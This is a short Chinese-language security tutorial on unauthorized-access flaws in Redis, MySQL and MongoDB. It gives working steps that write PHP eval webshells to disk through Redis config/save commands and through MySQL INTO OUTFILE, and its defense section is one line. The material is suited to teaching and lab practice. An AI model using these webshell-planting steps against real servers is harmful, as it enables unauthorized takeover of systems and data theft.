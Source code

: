 # 未授权访问漏洞

## 1、概述

服务或应用未授权或者鉴权失效导致被恶意攻击，广义上来讲，鉴权绕过也属于未授权访问。

- 分类：Web通用漏洞
- 风险等级及危害：
  1. 严重：可完全控制服务器、执行系统命令。
  2. 高危：可获取数据库大量敏感信息或对系统进行控制。
  3. 低危：可登录系统，但无法通过当前权限的操作造成实际危害。

有以下几种：

1. Redis未授权访问漏洞
2. Mysql未授权访问漏洞
3. MongoDB未授权访问漏洞
4. 。。。

## 2、漏洞利用

### 2.1、Redis未授权访问漏洞

开放端口：6379

利用方法：写文件Getshell、获取数据

```sql
config get dir #查看redis数据库路径
config set dir /root/redis-2.8.17# #修改靶机Redis数据库路径
config set dbfilename shell.php #生成shell.php文件
set xxx "\r\n\r\n<?php phpinfo();?>\r\n\r\n"#将一句话木马写入文件中
#"\r\n\r\n"是换行的意思，用redis写入文件会自带一些版本信息，如果不换行可能导致无法执行。
set xxx "\r\n\r\n<?php eval($_POST[whoami]);?>\r\n\r\n"#上传木马可以通过蚁剑连接
save
```

### 2.2、Mysql未授权访问漏洞

开放端口：3306

利用方法：爆破弱口令、写文件、远程连接获取数据

```sql
select'<?php @eval($_POST[1])?>'into outfile '/data/www/1.php'
```

### 2.3、MongoDB未授权访问漏洞

开放端口：27017

利用方法：远程连接获取数据

```sql
Show dbs //查询所有数据库
Use websec //选择数据库，没有就创建
db.websec.insert({"name":"websec is ez"}) //插入数据
db.websec.find().pretty() //查询所有数据
```

## 3、漏洞挖掘

对这几个常用端口进行测试

## 4、漏洞防御

开启身份验证

## 5、实验

对应实验10